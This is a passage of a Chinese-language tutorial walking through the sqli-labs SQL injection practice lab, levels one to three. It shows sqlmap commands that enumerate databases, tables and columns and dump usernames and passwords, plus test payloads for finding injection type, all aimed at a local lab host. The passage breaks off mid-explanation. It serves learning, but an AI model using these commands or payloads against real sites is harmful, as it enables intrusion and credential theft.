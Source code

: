 其中0x5c是`\`的十六进制表示，以隔开不同数据防止混淆

![QQ截图20241124203313.png](https://www.helloimg.com/i/2024/11/24/67431bfb088e9.png)

事实上，我们使用SQLmap高效爆破

去[SQLmap官网](https://sqlmap.org/)下载软件包

解压后在文件夹里面启动cmd，输入含有注入点的URL，比如

`sqlmap.py -u "http://sqli-labs-master:8848/Less-1/?id=1'" --dbs`

它询问什么就全输入y

--dbs:是查看所有的数据库

--tables:是查看所有的表

--columns:是查看表中所有的字段名

--dump:是查询哪个表的数据

![QQ截图20241124205024.png](https://www.helloimg.com/i/2024/11/24/67431ffcda494.png)

看看security库的表单

`sqlmap.py -u "http://sqli-labs-master:8848/Less-1/?id=1'" -D security --tables`

![QQ截图20241124205241.png](https://www.helloimg.com/i/2024/11/24/674320887b1e4.png)

再爆它的列头名

`sqlmap.py -u "http://sqli-labs-master:8848/Less-1/?id=1'" -D security -T users --columns`

![QQ截图20241124205414.png](https://www.helloimg.com/i/2024/11/24/674320ec5fcdd.png)

最后直接掀底裤了

`sqlmap.py -u "http://sqli-labs-master:8848/Less-1/?id=1'" -D security -T users -C "id,username,password" --dump`

![QQ截图20241124205740.png](https://www.helloimg.com/i/2024/11/24/674321bd06290.png)

### 第二关

判断一下是什么类型的注入

`?id=1`和`?id=2-1`都没有报错，是数值型注入

这就好办，因为是数值型注入，根本不需要闭合符，其余操作如同第一关

得到的数据库也跟上一关一模一样

### 第三关

判断注入类型

我尝试使用

`?id=1 and 1=1 跟?id=1 and 1=2`
